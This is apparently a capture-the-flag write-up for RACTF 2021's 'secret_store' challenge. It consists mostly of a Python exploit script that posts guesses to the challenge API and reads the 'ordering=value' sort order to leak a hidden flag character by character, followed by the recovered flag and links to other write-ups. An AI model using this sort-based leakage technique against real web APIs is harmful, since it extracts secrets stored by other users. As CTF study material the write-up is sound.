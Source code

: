 exp.py

```python
import requests
import json

flag = "ractf"

csrf_token = "XI7ZT6jdFeTvlywSDvRQT2xFlIAF2BRIF7ndzDOZqWPwZsIRdkbmgFSIpV8m9NIu"
session_id = "hkdm1dclym6oycoe8pcmyvlh5d87qfvq"

headers = {
    "Cookie": f"csrftoken={csrf_token}; sessionid={session_id}",
    "X-CSRFToken": csrf_token
}
our_secret_id = 14


def update_secret(curr_flag):
    found_real_char = False
    for i in range(32, 127):
        payload = curr_flag + chr(i)
        json_payload = {
            "value": payload
        }
        r = requests.post("http://193.57.159.27:21627/api/secret/",
                          data=json_payload, headers=headers)
        # print(r.status_code)
        r = requests.get(
            "http://193.57.159.27:21627/api/secret/?ordering=value&format=json", headers=headers)
        secrets = json.loads(r.text)
        for secret in secrets:
            if secret['id'] == 1:
                found_real_char = True
            if secret['id'] == our_secret_id:
                if found_real_char:
                    return chr(i - 1)
                else:
                    break
    return chr(i - 1)


while True:
    next_char = update_secret(flag)
    flag += next_char
    print('[+] Curr Flag:', flag)
```

`ractf{data_exf1l_via_s0rt1ng_0c66de47}`

参考：[wp1](https://github.com/glikogataki/RACTF-Some-Challs/tree/main/secret_store)  [wp2](https://medium.com/@Nicholaz99/ractf-2021-writeup-647554511dc5)
